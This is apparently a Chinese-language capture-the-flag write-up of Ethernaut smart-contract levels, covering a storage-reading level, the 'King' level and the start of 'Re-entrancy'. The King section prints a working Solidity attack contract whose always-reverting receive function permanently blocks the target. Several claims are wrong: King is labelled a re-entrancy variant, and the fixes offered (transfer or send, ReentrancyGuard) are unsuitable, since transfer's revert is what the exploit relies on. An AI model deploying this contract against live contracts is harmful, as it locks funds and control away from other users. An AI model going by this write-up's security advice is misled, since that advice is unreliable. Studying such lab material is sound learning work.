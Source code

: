 学习要点：
- 理解 Solidity 中的存储布局
- 使用低级函数（如 web3.eth.getStorageAt）来访问私有变量
- 不要将敏感数据直接存储在链上，即使使用 private 关键字。
- 如果需要存储敏感数据，建议使用加密方式存储，并仅在必要时解密。

## 09. King ✅ [Easy]

这关主要考察对重入攻击特殊变体的理解了：
- 重入攻击是指攻击者利用合约的漏洞，在合约执行过程中多次调用某个函数，从而获取更多的利益。
- 攻击者可以利用重入攻击来获取合约的控制权

攻击步骤：
1. 如果当前国王是一个智能合约，而该合约的 receive 函数无法接收 ETH（或者故意导致交易失败），新的国王就无法成功调用 receive，从而阻止任何其他玩家成为新的国王。
2. 部署一个攻击合约，并通过攻击合约成为国王。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingAttack {
    address public target;

    constructor(address _target) public {
        target = _target;
    }

    function attack() public payable {
        // 调用目标合约，并成为新的国王
        (bool success, ) = target.call{value: msg.value}("");
        require(success, "Attack failed");
    }

    // 故意让接收 ETH 的函数失败
    receive() external payable {
        revert("I refuse to give up the throne!");
    }
}
```

3. 部署攻击合约并提供足够的 ETH（大于当前的 prize）

学习要点：
- 理解receive函数的作用：在目标合约中，receive 函数是接收 ETH 的核心逻辑。如果接收方不能正确处理 ETH 转账，会导致交易失败。
- 防御建议：避免使用低级调用（如 call）进行转账，可以使用 transfer 或 send，它们在转账失败时会自动回滚。
- 在合约设计中，避免依赖外部合约的行为来完成核心逻辑。
- 使用现代的合约框架（如 OpenZeppelin 的 ReentrancyGuard）来实现安全重入控制

## 10. Re-entrancy ✅ [Medium]

这关主要考察对re-entrancy的理解：
- 重入攻击是指攻击者利用合约的漏洞，在合约执行过程中多次调用某个函数，从而获取更多的利益。
- 攻击者可以利用重入攻击来获取合约的控制权
